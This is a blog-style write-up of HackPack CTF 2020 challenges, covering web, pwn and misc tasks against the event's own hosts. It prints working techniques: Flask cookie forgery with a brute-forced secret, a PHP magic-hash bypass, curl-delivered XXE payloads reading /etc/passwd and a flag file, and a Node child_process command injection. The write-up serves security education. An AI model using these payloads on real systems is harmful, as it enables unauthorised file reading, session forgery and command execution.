 ```yaml
---
layout: post
title: HackPack CTF 2020
categories: [Capture The Flag]
tags: [hackpack, web, pwn, misc]

---
```


[Hackpack](https://ctf2020.hackpack.club/challenges) is an educational CTF that aims to complement security courses at North Carolina State University. Date: vie, 17 abr. 2020, 17:00 UTC — mar, 28 abr. 2020, 03:59 UTC


## Web
- Cookie Forge. When we log in, a cookie named session appears (this is the JWT). In the Flagship Loyalty section, we see this Warning: "You aren't a Flagship Loyalty Member! No cookies for you!!".
```
flask-unsign -d -c 'eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJhYSIsImFsZyI6IkhTMjU2In0.e30.yoxyotdennG9lsGnJNK1REYuSNqVUmN_ijyN26xO3z8'  
{'flagship': True, 'username': 'aa', 'alg': 'HS256'}
flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign  // bruteforce psw is password1
flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'aa'}"
```
Editing the cookie, we get the flag.

- Treasure Map: 
https://treasure-map.cha.hackpack.club/robots.txt ->
view-source:https://treasure-map.cha.hackpack.club/treasuremap.xml ->
view-source:https://treasure-map.cha.hackpack.club/7BmqJfhWhEa30NeVj7j2.html -> Flag

- Super Secret Flag Vault: The Index.php file shows us a PHP script comparing a specific hash. For this, we use the well-known: PHP magic hashes. Where 0+e[0-9]+ compared with == returns true. For eg -'0e1' == '00e2'. We put as input "KnCM6ogsNA1W" whose hash is 00e73414578113850089230341919829.

- Paster: view-source -> src="frames/index.php" -> src="game-frame.js" where a JSfuck code appears. Using https://enkhee-osiris.github.io/Decoder-JSFuck/, we get:
```
parent.postMessage(window.location.toString(),"*");var originalAlert=window.alert;window.alert=function(t){parent.postMessage("success","*"),flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99"),setTimeout(function(){originalAlert("Congratulations, you executed an alert:\n\n"+t+"\n\nhere is the flag: "+flag)},50)};d
```
Inspect the site and, in the console section, write: flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99") -> "flag{x55_i5Nt_7hA7_bAD_R1Gh7?}"

- Custom UI: Inserting '<', we get "Warning: DOMDocument::loadXML():". This is a [XML External Entity Injection](https://portswigger.net/web-security/xxe).
We see that there is a xdata variable, so we can inject here our data. xdata: <1button><1color> mn<1/color><1value><1/value><1/button>
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
[URL encoded](https://www.urlencoder.org/): 
```
%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```

Changing the cookie to True:

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
...
</div>
<!-- TODO: Delete flag.txt from /etc/ --></body>
...

```
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/flag.txt"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
```
And we get the flag.

## PWN 
- Jsclean: the python file is asking for a js file and a js code. In the python script we can see that it refers to index.js, so we know that this is the file to clean: index.js and the js code is: 
´´´
require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});
´´´

## Misc
- Soundy: using a sstv decoder.
![]({{ site.baseurl }}/images/HackPack-sstv.jpeg)
-Listen up!: when we use the exiftool command, we get a comment with an [URL](https://www.youtube.com/watch?v=2xZgCVG_Bzk) about MS Paint EXE file. We need to convert the audio to RAW format (it is the uncompressed audio).
